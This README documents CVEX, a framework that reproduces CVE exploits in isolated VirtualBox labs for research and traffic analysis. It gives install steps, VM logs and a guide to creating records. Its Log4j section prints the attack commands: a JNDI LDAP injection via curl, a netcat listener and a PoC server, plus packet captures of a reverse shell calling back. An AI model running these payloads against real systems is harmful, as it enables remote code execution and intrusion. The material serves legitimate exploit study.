 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Install

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ pip install -e .
```

Install Vagrant:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

Install Ansible:
```
sudo apt-add-repository ppa:ansible/ansible
sudo apt update
sudo apt install ansible
```

Install VirtualBox (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu
- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Create your own

<details>

<summary>Expand to see how to create your own CVEX record</summary>

Choose the right name for your CVEX record and create a new subfolder with this name in the [records](records) folder. Let's imagine that our goal is to reproduce CVE-2020-1938 (Apache Tomcat AJP Arbitrary File Read/Include Vulnerability). Obvious choice for the folder name would be `CVE-2020-1938`.

Let's use the [ubuntu2204-ubuntu2204](blueprints/ubuntu2204-ubuntu2204) blueprint. Create the simplest `records/CVE-2020-1938/cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
```

Run CVEX:
```
~/CVEX$ cvex records/CVE-2020-1938
```

CVEX will create the router VM and two Ubuntu 22.04 VMs:
```
2024-10-23 14:02:12,627 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-10-23 14:02:13,733 - INFO - [router] Starting the VM router...
2024-10-23 14:04:09,541 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
2024-10-23 14:04:24,545 - INFO - [router] Retrieving SSH configuration of router...
2024-10-23 14:04:24,545 - INFO - [router] Inventory /home/john/.cvex/router/inventory.ini has been created
2024-10-23 14:04:24,545 - INFO - [router] Executing Ansible playbook /ll/sources/CVEX/ansible/router.yml...
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] PLAY [Router] ******************************************************************
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-10-23 14:04:29,337 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter could change the meaning of that path. See
2024-10-23 14:04:29,337 - INFO - [router] https://docs.ansible.com/ansible-
2024-10-23 14:04:29,337 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:04:29,370 - INFO - [router] ok: [router]
2024-10-23 14:04:29,371 - INFO - [router] 
2024-10-23 14:04:29,371 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-10-23 14:04:50,650 - INFO - [router] changed: [router]
2024-10-23 14:04:50,650 - INFO - [router] 
2024-10-23 14:04:50,650 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-10-23 14:04:51,642 - INFO - [router] changed: [router]
2024-10-23 14:04:51,643 - INFO - [router] 
2024-10-23 14:04:51,643 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-10-23 14:04:56,908 - INFO - [router] ok: [router]
2024-10-23 14:04:56,908 - INFO - [router] 
2024-10-23 14:04:56,908 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-10-23 14:04:57,573 - INFO - [router] changed: [router]
2024-10-23 14:04:57,573 - INFO - [router] 
2024-10-23 14:04:57,574 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-10-23 14:04:59,498 - INFO - [router] changed: [router]
2024-10-23 14:04:59,498 - INFO - [router] 
2024-10-23 14:04:59,498 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-10-23 14:05:01,188 - INFO - [router] changed: [router]
2024-10-23 14:05:01,188 - INFO - [router] 
2024-10-23 14:05:01,189 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-10-23 14:05:01,826 - INFO - [router] changed: [router]
2024-10-23 14:05:01,826 - INFO - [router] 
2024-10-23 14:05:01,826 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-10-23 14:05:02,430 - INFO - [router] changed: [router]
2024-10-23 14:05:02,431 - INFO - [router] 
2024-10-23 14:05:02,431 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-10-23 14:05:03,198 - INFO - [router] changed: [router]
2024-10-23 14:05:03,198 - INFO - [router] 
2024-10-23 14:05:03,198 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-10-23 14:05:03,933 - INFO - [router] changed: [router]
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:03,933 - INFO - [router] PLAY RECAP *********************************************************************
2024-10-23 14:05:03,933 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:04,072 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
2024-10-23 14:05:14,799 - INFO - [ubuntu1] Initializing a new VM ubuntu1 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-10-23 14:05:17,209 - INFO - [ubuntu1] Starting the VM ubuntu1...
2024-10-23 14:07:26,896 - INFO - [ubuntu1] Creating snapshot 'clean' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:40,427 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 14:07:44,182 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 14:07:44,182 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 14:07:44,182 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:07:44,201 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 14:07:44,201 - INFO - [ubuntu1] 
2024-10-23 14:07:44,201 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:07:45,707 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:45,707 - INFO - [ubuntu1] 
2024-10-23 14:07:45,707 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:07:50,772 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:50,772 - INFO - [ubuntu1] 
2024-10-23 14:07:50,772 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 14:07:50,773 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:07:50,773 - INFO - [ubuntu1] 
2024-10-23 14:07:50,905 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:59,288 - INFO - [ubuntu2] Initializing a new VM ubuntu2 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2...
2024-10-23 14:08:00,935 - INFO - [ubuntu2] Starting the VM ubuntu2...
2024-10-23 14:09:55,140 - INFO - [ubuntu2] Creating snapshot 'clean' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:10:09,813 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 14:10:09,814 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 14:10:12,545 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 14:10:12,545 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 14:10:12,545 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:10:12,566 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 14:10:12,566 - INFO - [ubuntu2] 
2024-10-23 14:10:12,567 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:10:14,807 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:14,807 - INFO - [ubuntu2] 
2024-10-23 14:10:14,807 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:10:19,573 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:19,573 - INFO - [ubuntu2] 
2024-10-23 14:10:19,573 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 14:10:19,574 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:10:19,574 - INFO - [ubuntu2] 
2024-10-23 14:10:19,717 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:28,249 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 14:10:30,157 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:30,223 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:30,243 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:30,259 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:30,274 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:30,309 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:30,393 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 14:10:32,602 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:32,686 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:32,797 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 14:10:34,691 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:34,768 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:34,794 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:34,821 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:34,844 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:34,890 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:34,980 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 14:10:37,394 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:37,470 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:37,573 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 14:10:37,627 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 14:10:37,643 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:37,669 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 14:10:39,056 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:39,111 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:39,132 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:39,156 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:39,175 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:39,213 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:39,294 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 14:10:41,243 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:41,320 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:41,437 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 14:10:41,481 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 14:10:41,491 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:41,530 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 14:10:41,569 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 14:10:41,644 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 14:10:41,704 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 14:10:41,765 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 14:10:41,852 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 14:10:41,888 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 14:10:42,179 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 14:10:45,230 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 14:10:50,230 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 14:10:50,249 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 14:10:50,259 - INFO - [router] Stopping VM router...
2024-10-23 14:11:04,799 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 14:11:19,848 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

You will also see them in the VirtualBox GUI:
![CVEX VMs](img/ubuntu2204-ubuntu2204.png)

Whenever you need to experiment with the VMs, restore snapshots with `vagrant snapshot restore`:
```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2020-1938/ubuntu1
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2200
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/

~/.cvex/bento_ubuntu-22.04/202404.23.0/2$ vagrant snapshot restore CVE-2020-1938/ubuntu2
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu2'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
```

To perform administrative tasks, connect to the needed VM over SSH with `vagrant ssh`:
```
~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Oct 23 12:20:56 PM UTC 2024

  System load:  0.14208984375      Processes:             142
  Usage of /:   12.0% of 30.34GB   Users logged in:       0
  Memory usage: 11%                IPv4 address for eth0: 10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1: 192.168.56.3


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct 23 12:07:40 2024 from 10.0.2.2

vagrant@ubuntu1:~$
```

The first step would be to install the vulnerable Apache Tomcat 9.0.30 on `ubuntu1`. You need to find the binaries and build the Ansible playbook `ubuntu1.yml` that installs this service. Create the following structure of the CVEX record folder:
```
$/CVEX$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   └── apache-tomcat-9.0.30.tar.gz
└── ubuntu1.yml
```

Now run the Ansible playbook on `ubuntu1` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini records/CVE-2020-1938/ubuntu1.yml 

PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***************************************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu1 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu1]

TASK [Update apt cache] ***********************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Install dependencies (Java and utilities)] **********************************************************************************************************************************************************
ok: [ubuntu1] => (item=curl)
ok: [ubuntu1] => (item=wget)
ok: [ubuntu1] => (item=tar)
changed: [ubuntu1] => (item=openjdk-11-jre-headless)

TASK [Create tomcat group] ********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create tomcat user] *********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create installation directory for Tomcat] ***********************************************************************************************************************************************************
